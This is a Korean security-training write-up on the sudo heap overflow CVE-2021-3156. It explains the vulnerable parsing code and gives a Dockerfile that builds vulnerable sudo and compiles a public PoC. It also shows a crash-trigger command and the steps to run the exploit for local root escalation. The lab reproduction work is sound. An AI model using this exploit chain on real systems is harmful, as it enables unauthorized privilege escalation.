 # CVE-2021-3156
| 화이트햇스쿨 3기 35반 김동욱(7031)
----
### 요약
**CVE-2021-3156**
CVE-2021-3156은 sudo 명령어의 특정 함수에서 발생하는 힙 버퍼 오버플로우 관련 취약점입니다.
이 취약점은 사용자 입력의 이스케이프(`\`)를 처리하는 과정에서 버퍼 오버플로우가 발생하여 트리거됩니다. 
크게 Privilege Escalation(권한 상승), Arbitary Code Execution(임의 코드 실행)으로 이어질 수 있습니다.
2021년 1월 경 Qualys의 연구팀에 의해 발견되었으며 2011년 7월 이후의 대부분의 리눅스 배포판에 영향을 미칩니다. 본 보고서에서도 이에 영향을 받는 베이스 이미지인 Ubuntu 20.04 버전의 이미지를 사용하였습니다.

**CVE 등록 정보**
- CVSS: 7.8(높음)   
- 공격 벡터: 로컬
- 공격 복잡성: 낮음
- 필요 권한: 낮음

**발생하는 이유**
`sudo`와 함께 사용되는 `sudoedit` 명령어에서 사용자 입력 파싱 로직을 실행하는 함수인 `set_cmnd()`에서 힙 버퍼 오버플로우가 발생합니다.
아래는 해당 취약점이 발생하는 코드입니다.
```c
for (size = 0, av = NewArgv + 1; *av; av++)
size += strlen(*av) + 1;
if (size == 0 || (user_args = malloc(size)) == NULL) {
    ...
}
...
    *to++ = *from++;
```
- 인자 값 복사 이전에 `size` 변수가 확정되어 힙 버퍼 오버플로우에 취약
- 사용자 입력(argv)을 `to` 변수에 이스케이프 처리하여 복사하지만 `\\`와 같은 입력이 들어오면 `to`와 `from`의 길이가 맞지 않게 됨 -> 계속된 복사 작업으로 인한 잘못된 메모리 접근이 발생함
  
이로 인해 공격자는 힙 공간에 악의적인 값을 삽입하는 것이 가능해집니다.
****
### 환경 구성
CVE-2021-3156은 아직 vulhub에 올라와있지 않은 것으로 확인하였습니다.
따라서 아래와 같이 `dockerfile`을 구성하였습니다.
- 취약한 베이스 이미지인 `ubuntu:20.04`를 사용
- 공개된 github PoC 코드 사용
  - https://github.com/CyberCommands/CVE-2021-3156.git
  - 컨테이너 내의 환경과 일부 맞지 않는 부분이 있어 수정함
- sudo 저장소에서 취약한 버전의 sudo를 다운로드받아 이미지 내에서 빌드
```Dockerfile
# CVE-2021-3156

# 베이스 이미지 설정
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=nointeractive

# 필요한 패키지 설치
RUN apt-get update -y
RUN apt-get install -y build-essential \
                       make wget whois \
                       gdb git python3-pip \
                       libssl-dev libffi-dev \
                       python3-dev sudo

# 취약한 sudo 빌드 및 설치
WORKDIR /root
RUN wget https://www.sudo.ws/dist/sudo-1.8.31.tar.gz
RUN tar -xf sudo-1.8.31.tar.gz && \
    cd sudo-1.8.31/ && \
    mkdir build && cd build && \
    ../configure --enable-env-debug && \
    make -j && make install

# 테스트 유저 생성 및 설정
RUN useradd -ms /bin/bash Gayang2902
WORKDIR /home/Gayang2902
COPY ./vuln_check /home/Gayang2902/vuln_check

# 공개된 PoC clone 및 컨테이너 환경에 맞게 일부 수정하여 빌드
## 1. argv 변수 수정
## 2. sudoedit 경로 수정
RUN git clone https://github.com/CyberCommands/CVE-2021-3156.git && \
    cd CVE-2021-3156 && \
    sed -i 's|char\* argv\[\] = {[^}]*}|char* argv[] = { "sudoedit", "-s", "AAAAA", NULL };|' exploit.c && \
    sed -i 's|/usr/bin/sudoedit|/usr/local/bin/sudoedit|g' exploit.c && \
    make && \
    ln -s /home/Gayang2902/CVE-2021-3156/exploit /home/Gayang2902/exploit

USER Gayang2902

CMD [ "bash" ]

```
**이미지 빌드**
```bash
docker build -t <image:tag> .
```

**취약한 환경이 구성되었는지 확인**
```bash
$ docker run --rm <image:tag> ./vuln_check
# 아래와 같이 출력되면 취약한 환경이 잘 구성된 것
./vuln_check: line 2:     8 Segmentation fault      sudoedit -s '\' `perl -e 'print "A" x 10000'`
```
### 실행
```bash
$ docker run --rm --it <image:tag>
$ cd CVE-2021-3156 && ./exploit
```
### 익스플로잇 시연
1. **이미지 빌드**
![alt text](images/image_build.png)
2. **취약한 버전으로 빌드되었는지 확인**
![alt text](images/vuln_check.png)
3. **PoC 시연**
위의 과정으로 빌드를 완료하고 PoC를 실행시키면 아래와 같이 sudo 그룹에 속해있거나 sudoers에 등록되어 있지 않은 일반 사용자에서 root 계정으로 권한 상승이 되는 것을 확인할 수 있습니다.
![alt text](images/image.png)
### 정리
